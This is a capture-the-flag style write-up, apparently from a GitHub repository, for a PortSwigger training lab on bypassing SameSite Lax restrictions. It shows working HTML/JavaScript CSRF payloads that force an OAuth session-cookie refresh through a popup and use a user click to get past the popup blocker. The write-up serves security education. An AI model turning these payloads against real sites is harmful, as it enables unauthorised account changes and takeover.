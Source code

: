# SameSite Lax bypass via cookie refresh

## Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)'s change email function is vulnerable to [CSRF](https://portswigger.net/web-security/csrf). 

## Reproduction and proof of concept

### Study the change email function

1. In Burp's browser, log in via your social media account and change your email address.
2. In Burp, go to the **Proxy -> HTTP history** tab.
3. Study the P`OST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass any `SameSite` cookie restrictions.
4. Look at the response to the `GET /oauth-callback?code=[...]` request at the end of the OAuth flow. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.

### Attempt a CSRF attack

1. In the browser, go to the exploit server.
2. Use the following template to create a basic CSRF attack for changing the victim's email address:

```text
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

3. Store and view the exploit. What happens next depends on how much time has elapsed since logging in:

* If it has been longer than two minutes, you will be logged in via the OAuth flow, and the attack will fail. In this case, repeat this step immediately.
* If you logged in less than two minutes ago, the attack is successful and your email address is changed. From the **Proxy -> HTTP history** tab, find the `POST /my-account/change-email` request and confirm that the `session` cookie was included even though this is a cross-site `POST` request.

### Bypass the SameSite restrictions

1. In the browser, notice that if you visit `/social-login`, this automatically initiates the full `OAuth` flow. If you still have a logged-in session with the `OAuth` server, this all happens without any interaction.
2. From the proxy history, notice that every time you complete the `OAuth` flow, the target site sets a new `session` cookie even if you were already logged in.
3. Go back to the exploit server.
4. Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. The following is a possible approach:

```text
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

5. Note that we've opened the `/social-login` in a new window to avoid navigating away from the exploit before the change email request is sent.
6. Store and view the exploit. Observe that the initial request gets blocked by the browser's popup blocker.
7. Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.

### Bypass the popup blocker

1. Realize that the popup is being blocked because you haven't manually interacted with the page.
2. Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:

```text
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

3. Test the attack again while monitoring the proxy history in Burp.
4. When prompted, click the page. This triggers the `OAuth` flow and issues you a new session cookie. After 5 seconds, notice that the CSRF attack is sent and the `POST /my-account/change-email` request includes the new `session` cookie.
5. Go to the MyAccount page and confirm that the email address has changed.
6. Go back to the exploit server and deliver the exploit to the victim. After a short pause, the lab is solved.

## Exploitability

An attacker needs to have a social media account and use an exploit server to host the attack. The lab supports OAuth-based login, and the attacker can log in via a social media account with credentials: `wiener:peter`.
